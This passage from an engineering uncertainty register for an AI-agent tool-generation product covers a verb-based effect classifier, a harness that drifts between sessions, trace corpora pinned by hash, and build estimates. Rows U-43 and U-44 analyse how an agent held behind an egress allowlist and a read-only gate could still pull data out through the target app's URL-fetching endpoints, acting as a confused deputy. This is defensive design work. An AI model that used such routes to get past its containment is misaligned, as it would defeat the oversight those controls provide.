specification sentence that states "safer" as a property rather than as an assumption.** OD-07 makes that binding: the production spec MUST carry "safer" as an assumption to be validated. | **The experiment is designed, scoped and priced; what it needs is authorisation, not design work.** Build the mechanism probe the finding specifies — tasks over parameters that fail open, pre-registered as such, reported separately from any success rate — and note the hazard it discloses about itself: this is deliberately constructing tasks in a region where the tool arm is expected to win, which is legitimate as a mechanism probe and illegitimate as a headline. **Two cheaper things should happen first and neither needs a model.** Enumerate how often the mechanism can even arise: **count fail-open parameters** in the target and in a corpus of applications — a filter that silently ignores an unrecognised value rather than erroring or returning nothing — because the claim's value scales with that prevalence and it is currently unmeasured. And **decide whether the mitigation is the tool surface at all**: identifier discipline could equally be a contract-derived validation on the parameter (D-09) or a `validated: false` marking (D-17), and if it can, "safer" is a property of the verification layer rather than of tool synthesis, which would move the claim rather than support it. **Until replication exists, quote it as "one observation, mechanism named, unreplicated," never as a rate and never without the n.** | [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md) §Limb 2, §Threats to validity; `plan.md` OD-07; D-19; D-09; D-17 |
| U-43 | **NEWLY OPENED 2026-08-02 — the precision of v1's only effect classifier is unmeasured, and it is a crude proxy by construction.** D-22 resolves an effect tier from the HTTP verb of the call, matched against the served-operation specification. **No precision figure exists for that mapping on any codebase**, and unlike U-02's deferred static label there is no gate in front of it. **NARROWED 2026-08-03 by `plan.md` OD-10 — still open, still blocking, and now a much smaller and more measurable target: one error shape rather than three** | **What makes this blocking is the substitution, not the crudeness.** D-16 pre-committed that no write ships until the read-only label reaches **0.98** precision. Under OD-09 that label does not exist, so the gate cannot be evaluated, and D-22 supplies a different classifier **with no gate at all** (D-16 restated, C-16). The trade is *a validated-before-shipping static label* for *an unvalidated-during-execution runtime tier plus a human gate*, and the human gate (D-15) is therefore absorbing risk the 0.98 threshold was written to absorb. **Three concrete ways the verb proxy is wrong, all of them ordinary rather than exotic.** A `POST` that is irreversible — `POST /jobs/purge`, `POST /admin/reset` — is classified reversible-write and would clear a policy that auto-approves reversible writes. A `GET` with side effects — `GET /export?destroy=1`, or any read endpoint whose handler writes an audit row or decrements a quota — is classified read-only, which is the direction that matters, and note that this is the *same* hazard U-37 and dependency item 2 already record for the reachability probe, arriving at the tool layer. And a `DELETE` that is soft and fully reversible is classified irreversible, which is safe but gates so often that operators will be pressured to widen the rule. **The good news, and the reason this is cheap:** the population is finite and enumerable — the served-operation set the runtime already holds — so precision can be sampled by hand-labelling one target's operations against their handlers, with no model spend. | **Sample it, and set a gate before v1 writes ship rather than after.** Three steps, none of them expensive. **(1)** Hand-label the effect tier of every operation in one target's served set by reading its handler, and score the verb mapping against that. The union-across-configurations harness that produces the operation set is **already committed** (U-02), so this is labelling work rather than engineering. **(2)** Pre-register a gate. It cannot be 0.98 on the same reading D-16 used, because a crude proxy will not reach it; the defensible form is a **directional** gate — *zero operations classified read-only that write* — which is the only error class that is unrecoverable, and it is a far more natural fit for a verb proxy than an aggregate precision figure. **(3)** Decide the auto-approval policy from the measured shape rather than from the tier names: if `POST` is frequently irreversible on real targets, then reversible-write must gate too, and the only auto-approved tier in v1 is read-only. **One design mitigation is available now and costs nothing: D-22's `UNKNOWN` bucket can be widened.** Any operation whose handler was not inspected can be `UNKNOWN` rather than verb-derived, which converts a precision problem into a gating-frequency problem — a worse user experience and a better safety posture. **AMENDMENT, 2026-08-03 — `plan.md` OD-10 takes step (3) and the design mitigation to their limits, and the resulting narrowing is the most useful thing to know about this row.** v1 is read-only and every unresolved call is denied, so **two of the three error modes above stop costing integrity and start costing availability only.** An irreversible `POST` misread as reversible-write is denied anyway; a soft `DELETE` misread as irreversible is denied anyway. **One error mode survives, and it is the whole of what this row now measures: a side-effecting endpoint reached by a safe method** — `GET /export?destroy=1`, a read handler that writes an audit row or decrements a quota. **So the gate step (2) asks for is already the right shape and is now the only shape**: *zero operations resolved read-only that write*, sampled by hand-labelling one target's served set against its handlers, at no model spend. **Two further consequences.** The measurement is **cheaper than it was**, because only safe-method operations need labelling rather than the whole set. And **the compensating control this row named is gone rather than strengthened** — D-15 no longer absorbs runtime risk, because nothing escalates; the risk now sits entirely on the deny list, which is reviewed as configuration. ~~*the human gate (D-15) is therefore absorbing risk the 0.98 threshold was written to absorb*~~ — **under OD-10 the deny list absorbs it, and a rule set nobody has scored is a thinner thing to lean on than a human, which is why this row stays blocking.** **SCOPE NOTE 2026-08-03, later the same day — this row acquires a neighbour rather than more content, and the boundary is worth drawing so the labelling pass is designed once.** The C-17 analysis turns up a *second* per-operation property that has to be hand-labelled from the same handlers over the same served set: **does a safe-method operation make an outbound request on the caller's behalf** — the confused-deputy egress path. It is not this row's error shape. This row asks *does a safe method write*, which costs integrity; the neighbour asks *does a safe method fetch*, which costs confidentiality and is the residual C-16 exposure that an egress allowlist cannot reach. **They are two columns on one labelling pass**, so the measurement this row already specifies should be designed to produce both at once, and the neighbour is recorded separately as **U-44** rather than folded in here, because they gate different things: this one gates writes, that one gates the egress guarantee. **RE-POINTED 2026-08-03 by `plan.md` OD-12 — the classifier moves, the uncertainty does not, and conflating those is the whole reason this note exists.** The verb→tier rule set now runs at the **mandatory egress proxy** rather than in the tool dispatcher, so **what it is measured over grows**: it sees shell-originated requests as well as the runtime HTTP client's, which is coverage this row could not previously assume. **Nothing about its precision changes.** The error shape is the one OD-10 narrowed it to — a side-effecting endpoint reached by a safe method — the labelling pass described above is unchanged, and **relocating a mechanism does not measure it.** The row stays blocking, and the one thing to guard against is a reading in which enforcement at a network layer sounds like validation: *"provably read-only"* was unavailable in the dispatcher and is unavailable at the proxy, for the identical reason that a verb is a convention. | `plan.md` OD-09, OD-10, **OD-12**; `.specify/memory/constitution.md` Principle IV; D-22; D-16; D-15; C-16; **C-17**; U-02; U-37; **U-44**; §2.6 |
| U-44 | **NEWLY OPENED 2026-08-03 — the egress guarantee an allowlist buys is conditional on a property of the *target application* that has never been checked, and the target can be a confused deputy for its own outbound requests.** Confining the agent's network reachability to the target's API surface necessarily permits **every operation of that API**, including any that performs an outbound fetch on the caller's behalf: recipe-import-from-URL, link preview, oEmbed, avatar or image fetch-by-URL, a webhook *test* button, an outbound notification test. **An agent that cannot reach the internet directly can still ask the target to reach it.** Whether that path is open is a per-target question and **no target has been scored for it** | **What makes this open rather than alarming is that the one target measured happens to close it — for a reason that does not generalize.** [finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md)'s target publishes five URL-fetching operations — `POST /api/recipes/create/url`, `…/url/bulk`, `…/url/stream`, `POST /api/recipes/test-scrape-url`, `POST /api/recipes/{slug}/image` — plus webhook and notification *test* endpoints at `POST /api/households/webhooks/{item_id}/test` and `POST /api/households/events/notifications/{item_id}/test`. **All of them are unsafe methods, so `plan.md` OD-10's default-deny already denies every one.** The deputy channel on this target is closed by the read-only gate and **not** by any egress control, which is worth stating precisely because it is the opposite of the intuition: the mechanism that closes it is the one nobody proposed for that purpose. **Why it does not generalize, and this is the whole of the uncertainty.** Fetch-by-URL is only conventionally a write. Link-preview, image-proxy, oEmbed and avatar endpoints are commonly `GET` with the URL in a query parameter — the same shape as the SSRF class — and such an operation **resolves `read_only` under OD-10's stated rule set and is allowed.** One of them anywhere in a target's served set restores C-16's egress leg in full, through a channel that is indistinguishable at the network layer from legitimate use, since the request the attacker needs is a request to the allowlisted host. **A second-order case worth recording:** a webhook or notification already configured by the operator fires on application events; v1 cannot create one and cannot create an event, so read-only closes that too — but it closes it **only for as long as v1 stays read-only**, which makes this a standing entry condition on writes rather than a settled question. | **Score it on the same pass that scores U-43, as a second column, and make the answer a gate on the egress claim rather than a footnote to it.** Three steps, no model spend. **(1)** Over one target's served operation set, hand-label each **safe-method** operation for whether its handler performs an outbound network request, reusing the U-43 labelling pass and the committed union-across-configurations harness. **(2)** Emit the result as a field on the reachability annotation (D-18, D-17 provenance), so it is a reviewable artifact under D-15's configuration leg alongside the side-effecting-read deny list, rather than knowledge held by whoever ran the pass. **(3)** Pre-register the disposition **before** the answer is known: *any safe-method operation that performs an outbound fetch is added to the deny list*, and **a target whose operations cannot be inspected fails closed** — the egress claim is not made for that deployment rather than being made with a caveat. **What must not happen is the claim being written first and qualified later**, which is the failure Principle I exists to catch and which this register has caught three times already. **One honest limit on the whole approach:** the label is derived from handlers, so it inherits every generality problem §7.5 records — it is exact for a framework whose handlers a reader can follow and unknown otherwise, which is why (3)'s fail-closed branch is the load-bearing one. **PROVENANCE ON THIS ROW'S OWN DATAPOINT, because it is the exact claim this row tells everyone else to mark: `provisional`.** The statement that the target's URL-fetching operations are all unsafe methods is derived from **operation names, paths and summaries in the published OpenAPI table**, not from reading the handlers — which is step (1) of the procedure above and **has not been performed**. It is the right kind of evidence for *"no obviously outbound-capable safe-method operation was found by inspection of the published surface"* and it is **not** evidence for *"no safe-method operation on this target makes an outbound request"*; C-14 is the standing reason the two are different, since framework-published metadata is authoritative only over what it is generated from. So the datapoint supports **narrowing the search**, not closing the question, and the row stays open at n = 0 measured rather than n = 1. **UNCHANGED 2026-08-03 by `plan.md` OD-12's ratification, and that is the point worth recording rather than a reason to skip the note.** OD-12 closes C-17 and the direct exfiltration channel; **it does not touch this row, and every other entry in the egress analysis moved.** The reason is structural: a proxy that permits the target's API necessarily permits every operation of that API, and the request an attacker needs is a request to the allowlisted destination — indistinguishable from a legitimate one at any network layer, and equally indistinguishable at a method-and-path layer if the operation is shaped as a `GET`. **So this is the residual after the strongest available network control, not a gap the control has yet to close**, and it is the reason the corpus's egress claim is *enumerated channels with a per-target condition* rather than *cut leg*. The fail-closed default in (3) is therefore load-bearing in the shipped design and not only in the procedure. | `.specify/memory/constitution.md` Principle IV bullet 1 (**v1.2.0**); C-16; C-17; D-15; D-17; D-18; U-43; §2.9; §7.5; §7.6; [07](./07-product-vision.md) §3.2.5 item 5; [08](./08-auth-identity-and-secrets.md) §5.4, §8.1 item 4; `plan.md` OD-10, **OD-12** |
| U-46 | **NEWLY OPENED 2026-08-03 — a between-session shift exists in the ceiling-test harness that repeated attempts cannot detect, and nobody has explained it.** [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md): three of the five tasks re-run five times are **byte-deterministic within a session** — `R1.010` at 4,079 tokens six times exactly, `R2.015` and `R1.012` varying by 0.3% and 0.2% — and yet sat at completely different values in two sessions at **the same fingerprint, the same battery, the same surface, temperature 0**. `R1.010` moved by a factor of **2.55×** and `R2.015` by **1.88×**. **A deterministic process cannot produce a 2.55× swing by sampling**, so this is not variance in the sense anything has measured. The tool arm is not exempt and its instance is the cleanest, because its trajectories are otherwise byte-stable: Arm A's `R2.015` took 4 turns and **17,871 tokens** in one run and 3 turns and **13,400 to 13,541 tokens** in all five repeats of a session that began thirty-five minutes later. | **Blocking for every cross-session comparison in this feature, which is a wider blast radius than any other entry in this register.** The E7 cost result is a cross-session comparison in part, and [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) names it. **The consequence has been worked out rather than assumed — see the OWNER FLAG under §3.1 — and the outcome is that the cost advantage survives while its range does not survive as written.** Two of the four family ratios turn out to carry no cross-session exposure at all, the third has a within-session replacement, and the fourth (the per-record **9.3×**) is n = 2 across two fingerprints and pins no magnitude. **The second consequence is about instruments, not results.** Every noise floor anyone has measured is a *within-session* floor, so the 2× rule in [11](./11-validation-plan.md) §9.3 is currently applied against a bar known to be too low (U-42). And **the third is a warning about what looks safe**: determinism within a session is not evidence of stability, it is the property that *hides* this effect, so a reader who sees a coefficient of variation of 0.00% should read *this instrument cannot see the dominant component* rather than *this measurement is tight*. | **Run one arm against itself in two sessions separated in time — which is exactly what [11](./11-validation-plan.md) §9.3 prescribed and what has never been done** (U-42, §9.3's own record). Attempts separated in sequence cannot measure it; only runs separated in time can. **No cause is proposed and this entry deliberately proposes none.** Provider-side model serving, cache state, container or fixture state, and time-of-day routing are all candidates, and finding 014's design distinguishes none of them — so a resolution has to *measure the size* of the component before anyone argues about its source. **Two cheap additions would earn their cost**: re-running the two aggregable per-record tasks paired in one run, which would put the 9.3× on the same footing as the other family figures; and recording wall-clock separation and provider response metadata on every result row, since the effect is currently invisible in everything the harness writes down. | [finding 014](../specs/001-discovery-validation/findings/014-ceiling-test-replication-and-noise-floor.md) §An open question, §Threats to validity; [finding 013](../specs/001-discovery-validation/findings/013-ceiling-test-budget-parity.md) §The evidence that motivated the whole investigation does not replicate; [11](./11-validation-plan.md) §9.3, §9.5; U-42; U-45; D-19; D-21; `plan.md` OD-07 |
| U-47 | **NEWLY OPENED 2026-08-03 — a hash-pinned trace corpus can rebase onto edited prompts, and every hash check still passes. This is the most transferable result E8 produced and it is not about verifiers.** [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) §The headline, and it is not about verifiers. The freeze pinned the SHA-256 of all **22** corpus files and refused to start on a change to any of them. **It did not pin the questions the traces were answers to.** A trace record stores the agent's transcript and the oracle's verdict; the transcript begins at the agent's first *assistant* turn, so the prompt is reachable only by joining to an external, mutable task file. Task ids are stable across battery versions, **so the join is total and a join that cannot fail cannot warn** — it produced a plausible pairing every time, for the corpus's entire existence. Five battery versions were pooled into one corpus and **143 of 246 records ran under a battery that no longer exists**. **The dangerous drift is *wording*, and the obvious detector is blind to exactly that case**: an amendment that clarifies a question without changing its answer leaves every stored `expected` value matching, so a stored-versus-current value comparison passes it. **7 of the 9 numeric false successes here are prompt-drifted and all 7 pass that test** — which is why the harness's own eligibility rule, which admits a cross-battery record whose value still matches, keeps 7 records known to have been graded against a prompt the agent never saw. | **Blocking, and it is the only entry in this register about the *instruments* rather than the product.** **Scope, stated precisely so it is neither over- nor under-read.** It does **not** invalidate E7 or E9: those scored each task at run time against the battery then in force, and no join was performed. It bites the moment anyone **re-scores frozen traces later**, which is precisely what E8 was, what [11](./11-validation-plan.md)'s Phase 2 rescoring design is, and what the production instrumentation OD-14 defers the verifier's margin to will be. **The cost is already paid once**: this is the defect that made E8's corpus unanswerable and the reason `plan.md` OD-14 declares the verifier's margin UNMEASURED rather than measuring it. **Why it is worth a register row rather than a harness fix.** Three properties made this instance survivable and **none of them is unusual** — the trace does not carry its own prompt, the join cannot fail, and the obvious detector misses the dangerous case. Any project evaluating agents against a frozen trace corpus can have this defect, and a passing hash check is *actively reassuring* while the corpus is wrong. **A rebased corpus cannot be repaired, only trimmed**: historical prompt text is unrecoverable here — one commit, manifests recording task ids but no prompt strings, transcripts starting after the prompt — so re-scoping can only *exclude*, which is what cost four of seven task families. | **The fix costs nothing and is already applied in this harness (Amendment B4.5); it is recorded here because the general form is what travels.** ① **Record the prompt inside the trace record**, so the artifact is self-contained. ② **Pin the battery version and the task-file hashes** in the freeze, not only the corpus files. ③ **Pin the cross-battery census itself**, which is the part most worth copying — it converts "58% of this corpus is cross-battery" from a fact someone once measured into an invariant the harness re-checks on every load. ④ **Make the analysis path refuse a cross-battery join** rather than perform one. **A detection channel nobody designed, and it is the cheapest instrument on the list.** The defect surfaced three times inside an hour from three unrelated directions — a blind re-derivation of ground truth, a stored-versus-current value sweep, and a run-manifest join dating every trace — and a **fourth arrival is cleaner than all three and was never recorded until finding 015**: arm c2, which consults no manifest, no battery version and no eligibility verdict, **independently reproduces the stale set exactly**. Scored over all 226 oracle-positives it raises 6 false alarms and all 6 are the 6 stale positives; the 7th stale record is an oracle-negative and it flags that too. **A postcondition verifier pointed at a rebased corpus reports the rebasing as a wall of false alarms**, so any project that already has one has a corpus-drift detector for free and does not know it. | [finding 015](../specs/001-discovery-validation/findings/015-verifier-vs-judge-not-run.md) §The headline, and it is not about verifiers, §The 12-versus-7, which is fully diagnosable; [11](./11-validation-plan.md) §Phase 2 — The judge audit, §9.2; C-19; U-33; U-42; D-21; P-07; P-09; `plan.md` OD-14 |
| U-48 | **NEWLY OPENED 2026-08-03 — nine capabilities moved from adopt to build and none of them has an estimate.** `plan.md` **OD-15** drops ADK from v1, and the work that comes back is the agent loop, the runner, the session store, checkpoint and resume, tool-schema translation, the per-provider cost table, a spend ceiling to replace `max_llm_calls`, the raw terminal signals, and the event stream §2.8's serving surface renders. **No re-derived figure exists in any committed artifact.** | **It is the largest item on the critical path and its size is unknown, which is a different condition from being large.** The 2.5–3.5 weeks everything downstream quotes was scoped to *loop safety with the runtime adopted* and covers none of the nine; its four component estimates are ADK-shaped and their anchors are gone — there is no `run_async` to wrap, no `BasePlugin` callback to ride, no ADK event stream for the journal to sit above (§2.6). **Two live effects, not just a schedule risk.** U-30's interim backstop disappeared with `max_llm_calls`, so the spend-ceiling gap has no floor under it at all; and U-31 gets *harder to decline*, because a durable engine now competes against a larger build rather than a smaller one. **The measured resume primitive does not transfer either** — finding 006's 5/5 was ADK's event-sourced replay over `SqliteSessionService`, so v1 has no measured resume machinery, and finding 006's *two of four missing against a threshold of three* is a statement about ADK and must not be cited about v1's substrate in either direction. | **Derive the estimate against the substrate that actually ships, before anything downstream quotes a duration.** This is engineering judgment calibrated against measured behaviour, not an experiment, and it is the same method §2.6 used for the original four — so it is cheap and it is owed. Until it exists, **no document may quote 2.5–3.5 weeks as the v1 runtime figure.** Two items are already known to sit outside it and stay outside it: OD-02's coding-node executor, and the per-call effect classifier OD-09 added. **ANNOTATED 2026-08-04 — an external substrate has now been assessed against all nine and reduces none of them, so the estimate is exactly as owed as it was.** [`15`](./15-nvidia-oo-agents.md) §3 works NVIDIA's NOOA module by module and returns three supplied, four partial, two absent — **and the qualifications invert the count, because the two rows it most cleanly owns are the two we cannot take.** The **per-provider cost table** arrives through `litellm.completion_cost` and `litellm.cost_per_token` in `tracing/_litellm_patch.py`, with no vendor-authored price map anywhere in the tree, so **taking that capability means taking the dependency `plan.md` OD-16 removed** (C-20). **Tool-schema translation, the largest row here, is measured non-compliant with FR-037 by [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) result 7's own counting rule** — `thought_signature`, `encrypted_content`, `reasoning_details`, `signature_delta` and `redacted_thinking` occur **zero times** across that tree's `src/`, `packages/` and `tests/`, and the assistant message it puts back on the wire carries `role`, `content` and `tool_calls` and nothing else. **That is the identical defect on the identical axis OD-15 cited against ADK**, arriving in the row where a *supplies* verdict would have been worth the most. **The general observation is worth more than the verdict on this one substrate, and it is the part to carry forward:** the two rows most likely to be discharged by adopting *anybody's* framework are the two where every candidate will hit the same two obstacles — an opaque-reasoning round-trip is unrewarded work for a middleware author, and a per-provider cost table is exactly the thing middleware exists to supply, so it will keep arriving attached to a middleware dependency. **No document may quote a reduced U-48 figure on the strength of this assessment**, and that prohibition is not a softer one than the sentence above it: the re-derivation is still owed, still un-made, and nothing about this assessment shortens it. | `plan.md` OD-15, **OD-16**; §2.6; §2.8; §2.12; D-05; O-06; U-03; U-12; U-30; U-31; **C-20**; [finding 003](../specs/001-discovery-validation/findings/003-runtime-provider-agnosticism.md) results 7 and 8; [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md); [`15`](./15-nvidia-oo-agents.md) §3, §4, §8 |

### 5.2 High-impact, non-blocking

| # | Unverified claim | Why it matters | How to resolve | Source |
|---|---|---|---|---|
| U-07 | **`adk api_server` serves session/artifact CRUD without a model API key** | Determines whether the free offline Phase 0a self-test needs credentials at all. Changes setup cost materially. | Run it. Ten minutes, and it is the literal first task in §6. **Partially informed, not resolved:** finding 004 called `get_fast_api_app(...)` in an isolated virtualenv with no model API key and read the full route table off the instantiated application across five configurations, at $0.00 model spend. So *construction* needs no key. Whether the served CRUD endpoints then function without one was not exercised — no request was ever issued against a running server. | [12](./12-examples-as-corpus.md) §10; [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) |
| U-08 | **Corpus bring-up cost** — "docker compose up plus a fixture loader in under 15 minutes" is from documentation, not from doing it | If Mealie takes a day, the six-app corpus must shrink and Phase 4's generalization claim weakens. | Do Mealie first and time it. | [11](./11-validation-plan.md) §10 |
| U-09 | **Whether Mealie has a genuinely large endpoint surface** — the "150–300 candidate tools" figure is estimated from route-file inspection at a distance | H1 (promotion selection) is meaningless on a 40-endpoint app. Substitute Gitea if Mealie does not qualify. | Count routes on the running instance via `/openapi.json`. | [11](./11-validation-plan.md) §10 |
| U-10 | **Whether declarative-authorization lifting works** — Pundit / Django permissions / `@PreAuthorize` / OPA into generated tool scopes | Architecturally sound; **no published system does it**, accuracy on real code unknown. It is the intended fix for `authorization: UNRESOLVED`. | Prototype before promising it to anyone. | [08](./08-auth-identity-and-secrets.md) §9.4 |
| U-11 | **The authoritative Claude Code built-in tool list** — lives in the closed-source CLI | Claude Code-equivalent tooling is a product promise. We cannot enumerate what we are matching. | Enumerate empirically from the SDK's advertised tool set and pin it; accept that it will drift. | [06](./06-examples-inventory.md) §9 |
| U-12 | **ADK 2.6.x version churn** — `workflow/` is entirely underscore-private (`_workflow.py`, `_graph.py`) behind a lazy public façade; `SequentialAgent` deprecated but not removed | We would depend on private modules. A refactor breaks us with no deprecation window. **Sharpened 2026-08-02 and it is worse than "private modules"**: the specific feature a production deployment must depend on is decorated **`@experimental`** and **defaults to off**. `Workflow._emit_end_of_agent` returns early unless `ResumabilityConfig(is_resumable=True)`, so without the experimental flag a completed run and a run cancelled mid-loop are indistinguishable from the caller's side — the false-success shape [03](./03-graph-and-loop-architecture.md) §3 names as "a very common and very expensive bug." And `Workflow._run_impl` still carries the comment `# TODO: resume from checkpoint event.` while recovery actually happens via `replay_mgr.scan_workflow_events`, so the implementation is acknowledged as unfinished by its own authors. **Partly discharged the same day by OD-01, and the residual is smaller but not gone.** The `@experimental` limb was the sharp one, and it rested on our depending on ADK's checkpoint-event emission and `end_of_agent` marker to tell a completed run from a cancelled one. OD-01 removes that dependency: our own terminal-condition wrapper supplies the named terminal, so the false-success exposure moves off a flagged-experimental ADK code path and onto a layer we own and can test. **What remains is the original concern, undiminished.** OD-01 keeps us living inside ADK's graph execution, which means `run_async`, the event stream, and the session service — all reached through the underscore-private `workflow/` package — stay load-bearing. A refactor there still breaks us with no deprecation window, and it now breaks the substrate our safety layer wraps rather than the safety layer itself. | Pin exactly; wrap every private import in one adapter module; re-verify each upgrade. **The regression test to add has changed shape along with the decision.** It was going to assert ADK's own behaviour — a clean run carries `actions.end_of_agent=True`, a cancelled run does not. Under OD-01 the stronger test is of *our* wrapper against *their* runtime: assert that our terminal taxonomy still distinguishes completion from cancellation after an ADK upgrade, whatever ADK does internally. That covers the flag being removed, renamed, or defaulted differently, and it also covers the event stream changing shape underneath us, which the original assertion did not. **✅ RESOLVED FOR v1 2026-08-03 — `plan.md` OD-15. v1 imports no ADK module, public or private, so there is no version-churn exposure and the regression test this row specified has no subject.** This is the one register entry OD-15 straightforwardly *closes*, and it should be read alongside U-48, which is the price: the churn risk is retired by owning the code that would have churned. **Kept open for v2**, where an ADK dependency is not foreclosed. | [10](./10-topology-in-practice.md) §14; [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md); `plan.md` OD-15; U-48 |
| U-31 | **NEWLY OPENED 2026-08-02 — whether a durable execution layer is in scope, and by when the answer is needed.** The corpus has always mentioned Temporal-style durability conditionally; the condition is now concrete and priced | **This is not a new topic but it is a newly *forced* decision, and it is recorded separately from the existing durability material rather than duplicating it.** What the corpus already holds: C-01 established that durable execution is a proven option rather than a theoretical one, citing Cursor's cloud agent loop on Temporal at >50M actions/day; §2.6's escalation ladder places "Temporal or Restate *underneath* the loop" at the top rung, gated on "infra durability required"; and [07](./07-product-vision.md) Q4 concluded that a read-only v1 does not need it, which made it "the cheapest decision in the stack to defer." **None of that is overturned.** What changes is that the deferral now has a price. [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) measured node-boundary checkpointing in ADK behaving exactly as [03](./03-graph-and-loop-architecture.md) §6.3 describes it in LangGraph — a kill inside a node duplicated its durable side effect, and a hosted inner loop lost 4 of 4 completed turns — and the finding is explicit that **switching agent frameworks does not avoid this, because the semantics are identical.** So the 1–1.5 week idempotency-and-journaling item is the price of *not* having a durable execution layer, in any framework. Deciding yes shrinks the largest item on the critical path; deciding no fixes it at 1–1.5 weeks; deciding nothing means committing a schedule around an estimate that the decision would change. The trigger condition in the escalation ladder has also become measurable rather than rhetorical: it is no longer "do you need exactly-once side effects" in the abstract but "does any hosted loop turn have a side effect that must not double-fire." | **Decide before the journaling estimate is committed to a schedule** — that is the deadline, and it is the only hard part. Two known constraints on the answer, both already in the corpus and both easy to forget: crossing a Temporal activity boundary **silently loses delegate token accounting** ([02](./02-agent-harnesses.md) §2.4, §2.10 here), so adding durability would degrade the very cost metric U-30 requires and token attribution would have to be re-verified rather than assumed; and the determinism discipline a durable engine demands (no `Date.now()`, no `random()`, no network I/O in workflow code) is real work that should not be paid for a request-scoped agent ([03](./03-graph-and-loop-architecture.md) §6.3). One cheap input first: probe ADK's dynamic-workflow tier (`ctx.run_node()`), which is described as automatically checkpointed and was **not** exercised by the finding. If its granularity is finer than node boundaries, the journaling estimate shrinks without a durable engine and this decision gets easier. **⚠️ PRESSURE INCREASED 2026-08-03 by `plan.md` OD-15, and the honest direction is *toward* the engine, not away.** OD-15 makes the surrounding build larger — a runner and a session store join the journal — so the argument that a durable engine is unearned rests entirely on the Principle VIII objection (a new service in a self-hosted install), which OD-15 does not touch. The production plan's Q-03 was accepted on exactly that basis and records the same caveat. **The engine-shaped work is also now unanchored**: finding 006's *the largest build item is not ADK's fault* remains true and its 1–1.5 week sizing was ADK-shaped (U-48). **Stays open, non-blocking, and should not be read as having got easier.** | [finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md) §The largest build item is not ADK's fault; [03](./03-graph-and-loop-architecture.md) §6.3; C-01; [07](./07-product-vision.md) Q4; `plan.md` OD-15; U-48 |
| U-13 | **MCP client uptake of the `2026-07-28` revision** — spec is five days old; SDK support announced, client support not observable | Determines how long dual-era support must last. All current client-behavior claims are pinned to `2025-11-25`. | Re-check in 90 days. Assume ~1 year of dual-era. | [09](./09-mcp-as-tool-surface.md) |
| U-14 | **Absence of a codebase→domain-operation MCP generator** — a negative result from search; cannot rule out stealth or enterprise-only products | This absence *is* the white space claim. | Not fully resolvable. Re-search at spec time; treat as a 6-month lead, not a moat. | [09](./09-mcp-as-tool-surface.md) §5.2 |
| U-15 | **Whether the 0.18–0.30 judge AUROC transfers to code/API tasks** | Inherited from other domains. Phase 2 exists partly to test it. Do not treat as established here. | [11](./11-validation-plan.md) Phase 2. | [11](./11-validation-plan.md) §10 |
| U-16 | **CMA concurrent-session limits and regional coverage** — two Anthropic-published sources disagree on read RPM (600 vs. 1,200); an "Environments: max concurrent 5" row has ambiguous scope; no region field on `environments.create` | If "5" means environments, per-tenant isolation is off the table. For any EU-residency prospect, residency is **unresolved and blocking**. | Verify against our own org before any capacity commitment. Only matters if CMA moves past the spike. | [13](./13-claude-managed-agents.md) §8 |
| U-27 | **NEWLY OPENED 2026-08-02 — Extracted docstrings are wrong, not merely missing.** The `docstring` column is populated with text that is not the function's docstring, with no signal distinguishing the two | **This is a distinct risk class from a coverage gap, and the corpus had only reasoned about coverage.** Of **10,143** indexed Python functions that genuinely carry a PEP 257 docstring, the index records a docstring for **355 (3.50%)**, and exactly **one** of those 355 is the real docstring. The extractor looks *above* the `def` — the JavaScript and Java convention — while Python's docstring is the first statement of the function body, so the populated values are section-divider banners and stray comments (`roll_die` is documented as `--- Roll Die Sub-Agent ---`). Finding 001 concluded that missing semantics were a benign division of labor with the LLM supplying them, and **that holds for absent fields and fails for confidently wrong ones**: a semantic layer asked to write a description knows when one is missing, and has no way to know that a plausible populated field is false. This is the exact failure shape constitution Principle IV's fail-loudly requirement exists to prevent, and it is invisible to any measurement that counts coverage instead of checking fidelity. **Generalized 2026-08-02 into D-17, on a second independent instance.** This entry recorded the pattern as a property of one field in one extractor and hedged that "the next field will fail differently." It did, in the next experiment: [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4 found that with one derivation rule disabled, **15 of 69 endpoints (21.7%)** carry a contract that is fluent, plausible, and wrong about every field name on the wire. Different mechanism — a derivation stopping one inheritance hop short rather than an extractor reading the wrong side of a `def` — identical shape, and undetectable from the artifact in both cases. Two instances in two consecutive measurements is a pattern rather than a coincidence, which is why the response is now a standing design rule (D-17) rather than a per-field fix. **U-27 itself remains open and unchanged as the specific docstring defect**; D-17 is the class it belongs to. | **Treat the field as unusable pending a fix.** Then two things: fix the extractor to read Python's first body statement, and — independently, because the next field will fail differently — add **field-level validity checks** wherever extracted metadata feeds the semantic layer, not null checks. A cheap version (reject a "docstring" that is entirely punctuation or begins with a comment marker) would have caught 354 of the 355 bad values. Cheap now, expensive to retrofit. **The general form of that last instruction is now D-17**, which requires provenance and a validation result on every derived field rather than a bespoke sanity check per field. | [finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md) §7; [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md) §4; D-17 |
| U-28 | **NEWLY OPENED 2026-08-02 — A `.gitignore` pattern silently dropped committed source.** The indexer applies `.gitignore` patterns as a filter without reconciling them against tracked-file status | All **22** symbol-level misses in the measurement sit under `src/google/adk/a2a/logs/`, excluded because the repository's `.gitignore` contains `logs/` — a pattern intended for runtime log output. **Git itself does not consider those files ignored**: they are tracked, and `git check-ignore` returns nothing for them, because ignore patterns do not apply to tracked files. Neither file produced a single node of any kind. Small here (22 functions, no routes affected) but the mechanism is unbounded and it is the silent recall loss finding 001 warned about: no error, no warning, and no amount of parser improvement detects it. Any analysis layer that honors ignore patterns can therefore remove real application surface without saying so. | Reconcile ignore patterns against `git ls-files` before applying them as an indexing filter, and fail loudly on any file that a pattern would exclude but git tracks. Report the behavior upstream, and treat the reconciliation as a requirement for whatever we build rather than a patch we hope lands. There is no reason to assume the 22-function bound holds on another repository. | [finding 